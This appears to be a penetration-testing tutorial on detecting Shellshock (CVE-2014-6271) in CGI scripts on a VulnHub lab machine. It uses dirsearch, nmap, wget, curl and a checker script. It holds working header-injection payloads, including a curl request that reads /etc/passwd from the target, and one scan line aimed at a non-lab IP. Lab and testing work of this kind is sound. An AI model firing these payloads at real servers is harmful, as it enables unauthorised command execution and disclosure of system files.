





1. Check Vulnerability
For testing purpose we have used this vulnerable VM:
https://www.vulnhub.com/entry/pentester-lab-cve-2014-6271-shellshock,104/
1. Locate files inside cgi directories on a potentially vulnerable system
◇ dirsearch
Take note of every file(URI) inside cgi directories:
▪ cgi-bin
▪ cgi-sys
We will test these filese in the next step
root@kali:/# cd /home/kali/bin/dirsearch
root@kali:/# python3 dirsearch.py -u http://12.185.237.252/ --extensions=cgi --recursive
2. Test if a system is vulnerable
Most tests are based in echo something and expect that that string is returned in the web response. If you think a page may be vulnerable, search for all the cgi pages and test them.
◇ Bash (local test directly on the target system)
Because an user can change environment variables for a particular command invocation by indirectly invoking it via
env [variable]=VALUE <command>On older version of bash(vulnerable) if we use:
user@debian:/$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

First it will set environment variable x to () { :;}; echo vulnerable only for THIS command invocation. As side effect this assignment produce also the execution of
echo vulnerable and then the normal command bash -c “echo this is a test”() { :;}; → this indicate to bash that x is not only a standard environment variable, but rather is a Bash function being stored in an environment variable. The parentheses, (), indicate that this is a function. Within the curly braces, { }, is what this function will actually do. In large part, is arbitrary. We could put some shell commands here but for this vulnerability the most commonly found value within the curly braces is a colon, :, which to Bash means "do nothing"
vulnerable → You can drop commands of your choosing here to be executed.
▪ Output of a vulnerable system

▪ Output of a patched system

◇ Nmap
Attempts to exploit the "shellshock" vulnerability (CVE-2014-6271 and CVE-2014-7169) in web applications.
IMPORTANT: We need to change the URI with the one found with dirsearch
root@kali:/# nmap --script http-shellshock 192.168.147.134 --script-args uri=/cgi-bin/status

◇ wget
root@kali:/# wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'echo vulnerable'" http://192.168.147.134/cgi-bin/status && cat status

◇ curl
root@kali:/# curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://192.168.147.134/cgi-bin/status
◇ Shellshocker
ShellShocker tests a website for vulnerability to the ShellShock bug.
root@kali:/# python3 shellshocker.py http://192.168.147.134/cgi-bin/status
